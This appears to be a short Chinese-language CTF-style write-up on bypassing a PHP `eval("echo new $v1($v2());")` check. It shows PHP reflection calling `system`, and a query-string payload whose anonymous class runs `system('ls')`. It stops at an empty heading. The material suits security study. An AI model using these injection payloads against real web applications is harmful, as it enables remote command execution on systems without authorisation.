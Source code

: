 ```php
    if(preg_match('/[a-zA-Z]+/', $v1) && preg_match('/[a-zA-Z]+/', $v2)){
            eval("echo new $v1($v2());");
    }

}

?>
```

这里看到new想到创建对象，使用ReflectionClass构造system类

反射构造命令执行的方法

1. ReflectionFunction
```php
<?php
// 创建一个 ReflectionFunction 对象，用于反射 system 函数
$function = new ReflectionFunction('system');

// 获取函数的名称
echo "函数名称: " . $function->getName() . "<br>";

// 获取函数的文档注释
echo "文档注释: " . $function->getDocComment() . "<br>";

// 获取函数的参数
$params = $function->getParameters();
echo "参数列表:<br>";
foreach ($params as $param) {
    echo "参数名称: " . $param->getName() . "<br>";
}

// 获取函数是否返回值
if ($function->hasReturnType()) {
    echo "返回类型: " . $function->getReturnType()->getName() . "<br>";
}

// $return_value = 0;
// invoke函数触发function函数
$output = $function->invoke('dir');
echo $output.'<br>';
?>
```

### eval("echo new $v1($v2());");绕过

1. 匿名函数

   ```php
   ?v1=class{ public function __construct(){ system('ls'); } };&v2=a
   ```

2. RelfectionClass和ReflectionFunction
